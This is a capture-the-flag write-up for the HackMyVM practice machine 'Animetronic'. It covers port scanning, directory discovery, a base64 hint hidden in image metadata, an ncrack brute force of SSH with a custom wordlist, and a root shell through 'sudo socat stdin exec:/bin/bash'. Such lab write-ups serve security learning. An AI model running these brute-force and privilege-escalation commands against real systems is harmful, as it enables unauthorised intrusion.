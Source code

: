 ```yaml
---
title: Animetronic Writeup
date: 2024-03-23
categories:
  - Writeups
tags:
  - Linux
  - Enumeration
  - PrivEsc
  - HackMyVm
---
```

# Arp-scan 

 Detecting the ip of the machine

```bash
192.168.1.76 08:00:27:06:e0:17 PCS Systemtechnik GmbH
```


# Ports

Starting with port scanning by using nmap

```bash
Host is up (0.018s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 

|   256 59:eb:51:67:e5:6a:9e:c1:4c:4e:c5:da:cd:ab:4c:eb (ECDSA)

|_  256 96:da:61:17:e2:23:ca:70:19:b5:3f:53:b5:5a:02:59 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Animetronic

|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 08:00:27:06:E0:17 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  
TRACEROUTE

HOP RTT      ADDRESS

1   17.72 ms animetronic (192.168.1.76)
```


# Url Enumeration

Use Dirsearch for directory discovery

```shell
dirsearch -u http://192.168.1.76 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
# result -> /staffpages/new_employees
```

(note that the default dictionary might not work)

## Exif 

As we access the directory, we can see nothing but a picture.

Download it and check the exif data of it:
```shell
root@kali ~/Downloads [1]# exiftool new_employees.jpeg
ExifTool Version Number         : 12.67
File Name                       : new_employees.jpeg
Directory                       : .
File Size                       : 160 kB
File Modification Date/Time     : 2024:03:22 12:54:39-04:00
File Access Date/Time           : 2024:03:22 12:55:22-04:00
File Inode Change Date/Time     : 2024:03:22 12:54:39-04:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Comment                         : page for you michael : ya/HnXNzyZDGg8ed4oC+yZ9vybnigL7Jr8SxyZTJpcmQx53Xnwo=
Image Width                     : 703
Image Height                    : 1136
Encoding Process                : Progressive DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 703x1136
Megapixels                      : 0.799
```

 Decoding:

```bash
echo "ya/HnXNzyZDGg8ed4oC+yZ9vybnigL7Jr8SxyZTJpcmQx53Xnwo=" | base64 -d
```

Result :

```shell
ɯǝssɐƃǝ‾ɟoɹ‾ɯıɔɥɐǝן # message_for_michael
```

Then we can do a smart assumption that this might be a directory.

By accessing it:

![](/assets/img/animetronic/Note_img.png)

Then:

![](/assets/img/animetronic/personal_info.png)


We can make another guess that this might be for ssh. Hence what we need to do now is to use cupp to create a dictionary, then we can consider using ncrack to get the ssh user and password.

ssh user & password:

```
ncrack -v -u michael -P michael.txt -T5 ssh://192.168.1.76 -f
```

Result:

```shell
192.168.1.76 22/tcp ssh: 'michael' 'leahcim1996'
```

## SSH

As we login into via ssh, we are able to see a file "Note.txt"

```shell
michael@animetronic:/home/henry$ cat Note.txt 
if you need my account to do anything on the server,
you will find my password in file named

aGVucnlwYXNzd29yZC50eHQK
```

By decoding it, it is "henrypassword.txt".

```shell
find / -name henrypassword.txt
```

Result:

```shell
/home/henry/.new_folder/dir289/dir26/dir10/henrypassword.txt
```

Then we are able to get the password of user henry:

```shell
michael@animetronic:/home/henry$ cat /home/henry/.new_folder/dir289/dir26/dir10/henrypassword.txt
IHateWilliam
```

Login into user henry:

```shell
henry@animetronic:~$ sudo -l
Matching Defaults entries for henry on animetronic:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User henry may run the following commands on animetronic:
    (root) NOPASSWD: /usr/bin/socat
```

## Privilege Escalation

```shell
sudo socat stdin exec:/bin/bash
```

